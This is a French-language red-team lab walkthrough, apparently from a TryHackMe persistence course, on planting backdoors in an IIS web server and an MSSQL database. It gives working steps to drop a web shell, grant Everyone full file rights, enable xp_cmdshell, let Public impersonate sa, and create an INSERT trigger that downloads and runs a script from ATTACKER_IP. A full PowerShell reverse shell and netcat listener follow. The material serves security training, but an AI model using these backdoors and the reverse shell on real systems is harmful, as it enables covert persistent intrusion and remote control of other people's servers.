 Si vous ne souhaitez pas utiliser les fonctionnalités de Windows pour masquer une porte dérobée, vous pouvez toujours profiter de n'importe quel service existant pouvant être utilisé pour exécuter du code à votre place. Cette tâche examinera comment installer des portes dérobées dans une configuration de serveur Web typique. Néanmoins, toute autre application dans laquelle vous avez un certain degré de contrôle sur ce qui est exécuté devrait être également accessible par porte dérobée. Les possibilités sont infinies!

Utiliser des shells Web

La manière habituelle d'obtenir la persistance sur un serveur Web consiste à télécharger un shell Web dans le répertoire Web. Ceci est trivial et nous accordera un accès avec les privilèges de l'utilisateur configuré dans IIS, qui est par défaut `iis apppool\defaultapppool`. Même s'il s'agit d'un utilisateur non privilégié, il dispose d'un `SeImpersonatePrivilege`, offrant un moyen simple de remonter jusqu'à l'administrateur à l'aide de divers exploits connus. Pour plus d'informations sur la manière d'abuser de ce privilège, consultez la [salle Windows Privesc](https://tryhackme.com/room/windowsprivesc20) .

Commençons par télécharger un shell Web ASP.NET. Un shell Web prêt à l'emploi est fourni  [ici](https://github.com/tennc/webshell/blob/master/fuzzdb-webshell/asp/cmdasp.aspx) , mais n'hésitez pas à utiliser celui que vous préférez. Transférez-le sur la machine victime et déplacez-le dans la racine Web, qui se trouve par défaut dans le `C:\inetpub\wwwroot`répertoire :

Invite de commande

```
C:\> move shell.aspx C:\inetpub\wwwroot\
```

Remarque : selon la manière dont vous créez/transférez  `shell.aspx`, les autorisations du fichier peuvent ne pas permettre au serveur Web d'y accéder. Si vous obtenez une erreur Autorisation refusée lors de l'accès à l'URL du shell, accordez simplement à tout le monde toutes les autorisations sur le fichier pour qu'il fonctionne. Vous pouvez le faire avec `icacls shell.aspx /grant Everyone:F`.

On peut ensuite exécuter des commandes depuis le serveur web en pointant vers l'URL suivante :

`http://10.10.92.8/shell.aspx`

![d9845057ebf54a61401ca61c2c268fe8](https://github.com/dsgsec/Red-Team/assets/82456829/2d2effc3-fba7-4f53-90a3-78a4d41fe314)

Bien que les shells Web fournissent un moyen simple de laisser une porte dérobée sur un système, il est habituel que les équipes bleues vérifient l'intégrité des fichiers dans les répertoires Web. Toute modification apportée à un fichier déclenchera probablement une alerte.

Utiliser MSSQL comme porte dérobée

Il existe plusieurs façons d'implanter des portes dérobées dans les installations MSSQL Server. Pour l'instant, nous allons examiner l'un d'entre eux qui abuse des déclencheurs. En termes simples, les déclencheurs dans MSSQL vous permettent de lier des actions à effectuer lorsque des événements spécifiques se produisent dans la base de données. Ces événements peuvent aller de la connexion d'un utilisateur jusqu'à l'insertion, la mise à jour ou la suppression de données d'une table donnée. Pour cette tâche, nous allons créer un déclencheur pour tout INSERT dans la `HRDB`base de données.

Avant de créer le déclencheur, nous devons d'abord reconfigurer quelques éléments sur la base de données. Tout d'abord, nous devons activer la `xp_cmdshell`procédure stockée. `xp_cmdshell`est une procédure stockée fournie par défaut dans toute installation MSSQL et vous permet d'exécuter des commandes directement dans la console du système, mais elle est désactivée par défaut.

Pour l'activer, ouvrons , disponible depuis le menu Démarrer. Lorsqu'une authentification vous est demandée, utilisez simplement l'authentification Windows (la valeur par défaut) et vous serez connecté avec les informations d'identification de votre utilisateur Windows actuel. Par défaut, le compte administrateur local aura accès à toutes les bases de données.`Microsoft SQL Server Management Studio 18`

Une fois connecté, cliquez sur le bouton Nouvelle requête pour ouvrir l'éditeur de requête :

![eb3aaca1ed1da7d1e08f0c3069a5633a](https://github.com/dsgsec/Red-Team/assets/82456829/0ac9622b-54a6-4895-a9f4-1340c194ff21)

Exécutez les phrases SQL suivantes pour activer les « Options avancées » dans la configuration MSSQL, puis procédez à l'activation`xp_cmdshell` .

```
sp_configure 'Show Advanced Options',1;
RECONFIGURE;
GO

sp_configure 'xp_cmdshell',1;
RECONFIGURE;
GO
```

Après cela, nous devons nous assurer que tout site Web accédant à la base de données peut fonctionner `xp_cmdshell`. Par défaut, seuls les utilisateurs de base de données disposant de ce `sysadmin`rôle pourront le faire. Puisqu'il est prévu que les applications Web utilisent un utilisateur de base de données restreint, nous pouvons accorder des privilèges à tous les utilisateurs pour usurper l'identité de l' `sa`utilisateur, qui est l'administrateur de base de données par défaut :

```
USE master

GRANT IMPERSONATE ON LOGIN::sa to [Public];
```

Après tout cela, nous configurons enfin un déclencheur. On commence par passer à la `HRDB`base de données :

```
USE HRDB

```

Notre déclencheur exploitera `xp_cmdshell`l'exécution de Powershell pour télécharger et exécuter un `.ps1`fichier à partir d'un serveur Web contrôlé par l'attaquant. Le déclencheur sera configuré pour s'exécuter chaque fois qu'un message  `INSERT`est créé dans la `Employees`table de la `HRDB`base de données :

```
CREATE TRIGGER [sql_backdoor]
ON HRDB.dbo.Employees
FOR INSERT AS

EXECUTE AS LOGIN = 'sa'
EXEC master..xp_cmdshell 'Powershell -c "IEX(New-Object net.webclient).downloadstring(''http://ATTACKER_IP:8000/evilscript.ps1'')"';

```

Maintenant que la porte dérobée est configurée, créons `evilscript.ps1`dans la machine de notre attaquant, qui contiendra un reverse shell Powershell :

```
$client = New-Object System.Net.Sockets.TCPClient("ATTACKER_IP",4454);

$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
    $data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
    $sendback = (iex $data 2>&1 | Out-String );
    $sendback2 = $sendback + "PS " + (pwd).Path + "> ";
    $sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
    $stream.Write($sendbyte,0,$sendbyte.Length);
    $stream.Flush()
};

$client.Close()
```

Nous devrons ouvrir deux terminaux pour gérer les connexions impliquées dans cet exploit :

-   Le déclencheur effectuera la première connexion pour télécharger et exécuter `evilscript.ps1`. Notre déclencheur utilise le port 8000 pour cela.
-   La deuxième connexion sera un shell inversé sur le port 4454 vers notre machine attaquante.

|

Boîte d'attaque

```
user@AttackBox$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

 |   |

Boîte d'attaque

```
user@AttackBox$ nc -lvp 4454
Listening on 0.0.0.0 4454

```

 |

Une fois tout cela prêt, naviguons vers `http://10.10.92.8/`et insérons un employé dans l'application Web. Puisque l'application Web enverra une instruction INSERT à la base de données, notre TRIGGER nous donnera accès à la console du système.
